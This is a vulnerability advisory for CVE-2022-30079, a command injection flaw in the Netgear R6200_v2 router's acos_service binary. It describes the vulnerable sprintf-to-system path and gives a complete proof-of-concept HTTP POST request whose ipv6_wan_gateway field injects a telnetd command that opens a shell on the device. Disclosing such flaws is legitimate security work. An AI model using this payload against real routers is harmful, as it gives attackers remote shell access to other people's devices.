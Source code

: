 # Command injection vulnerability in Netgear R6200_v2 router
## Basic information
* CVE-ID：CVE-2022-30079
* Vendor: Netgear
* Product: R6200_v2
* Firmware version: All firmware version including the latest R6200v2-V1.0.3.12_10.1.11
* Firmware download link: https://www.downloads.netgear.com/files/GDC/R6200V2/R6200v2-V1.0.3.12_10.1.11.zip
* Type: Insecure permissions - code execution

## Vulnerability description
Vulnerability exists in the binary `/sbin/acos_service` in all R6200_v2 firmware versions including the latest R6200v2-V1.0.3.12. It might also infect some other products, which is recently not analyzed.  
Taking the latest R6200_V2_1.0.3.12 firmware as an example, the variable `ipv6_wan_gateway ` located at offset 0x19B98 is passed into a `sprintf` function by the format string `%s`. Then, the value is passed to a `system`, which leads to a command injection vulnerability. The disassemble code and the c code are presented below:  
![disassemble code of the vulnerable place](./CVE-2022-30079.assets/vuln_disam_code.png)  
![c code of the vulnerable place](./CVE-2022-30079.assets/vuln_c_code.png)  
Through further attemps, we found that remote authenticated attackers can modify the value of the vulnerable parameter in website http://192.168.1.1/IPV6_fixed.htm by sending a modified request. As the vulnerable parameter is directly saved in nvram after sending the request, attackers can then execute arbitrary remote command as they controlled the parameter of a `system` call.  
After visiting the web page and sending a `POST` request, if we set the `ipv6_wan_gateway` parameter of the request to be `%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 1234-b 0.0.0.0)`.  
A potential PoC is shown below:  
```
POST /ipv6_fix.cgi?id=2068267834 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1087
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4x
Connection: close
Referer: http://192.168.1.1/IPV6_fixed.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1
apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=3CA2&IPv6WanAddr3=010F&IPv6WanAddr4=00A1&IPv6WanAddr5=121C&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0010&ProfixWanLength=6&IPv6Gateway1=2001&IPv6Gateway2=3CA2&IPv6Gateway3=010F&IPv6Gateway4=00A1&IPv6Gateway5=121C&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=&DAddr2=&DAddr3=&DAddr4=&DAddr5=&DAddr6=&DAddr7=&DAddr8=&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=3113&IPv6LanAddr2=3CA2&IPv6LanAddr3=010F&IPv6LanAddr4=001A&IPv6LanAddr5=121B&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=6&ipv6_wan_ipaddr=2001%3A3CA2%3A010F%3A00A1%3A121C%3A0000%3A0000%3A0010&ipv6_lan_ipaddr=3113%3A3CA2%3A010F%3A001A%3A121B%3A0000%3A0000%3A0001&ipv6_wan_length=6&ipv6_lan_length=6&ipv6_pri_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29&ipv6_enable_dhcp=&ipv6_proto=fixed
```
An evidence of the vulnerable is shown below:  
![reproduction evidence](./CVE-2022-30079.assets/reproduction.png)

## Acknowledgment
This vulnerability credits to [@maybethetricker](https://github.com/maybethetricker)(Runyuan Mei) and [@river-li](https://github.com/river-li)(Zichuan Li) from Wuhan University.


